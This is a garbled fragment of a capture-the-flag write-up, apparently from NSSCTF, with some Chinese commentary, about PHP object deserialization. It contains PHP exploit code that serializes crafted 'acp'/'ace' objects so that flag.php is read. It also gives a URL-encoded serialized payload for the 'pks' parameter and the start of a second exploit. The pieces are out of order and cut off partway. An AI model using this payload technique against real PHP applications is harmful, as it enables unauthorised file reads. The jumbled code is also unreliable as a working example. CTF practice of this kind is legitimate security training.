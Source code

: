 ```php

}  

class ace

{   

  public $filename='flag.php';   

  public $openstack;

  public $docker=NULL; 

​    

}  

$a= new acp();

echo urlencode(serialize($a)); 

?>
```

Payload:

?pks=O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D

右键查看源码，得到提示：

<?php 

$heat="asdasdasdasd53asd3a1sd3a1sd3asd";

$flag="flag in /nssctfasdasdflag";  

```php
Exp2:

<?php  

class acp 

{  

  protected $cinder;  

  public $neutron;

  public $nova;

  function __construct() 

  {    

​    $this->cinder = new ace;

  }  

}  

class ace

{   
```